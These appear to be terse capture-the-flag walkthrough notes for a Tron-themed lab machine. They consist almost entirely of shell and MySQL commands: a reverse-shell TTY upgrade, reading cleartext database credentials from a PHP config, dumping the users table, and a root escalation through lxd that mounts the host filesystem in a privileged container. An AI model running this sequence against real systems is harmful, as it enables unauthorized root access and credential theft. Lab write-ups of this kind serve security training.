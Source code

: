 Shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    
    export TERM=xterm
    
    Ctrl + Z
    
    stty raw -echo; fg
    
    cd /var/www/
    
    cat web.txt
    
    cd TheGrid/
    
    cd includes/
    
    cat dbauth.php
    
    $dbaddr = "localhost";
    $dbuser = "tron";
    $dbpass = "IFightForTheUsers";
    $database = "tron";
    
    mysql -utron -p
    
    IFightForTheUsers
    
Mysql:
    
        show databases;
        
        use tron
        
        show tables;
        
        select * from users;
        
        exit
    
Shell:
    
    su flynn
    
    @computer@
    
    whoami
    
    cat user.txt
    
    id
    
    lxd
    
    lxc image list
    
    lxc init Alpine strongbad -c security.privileged=true
    
    lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true
    
    lxc start strongbad
    
    lxc exec strongbad /bin/sh
    
    id
    
    ls
    
    cat root.txt

# Notes:

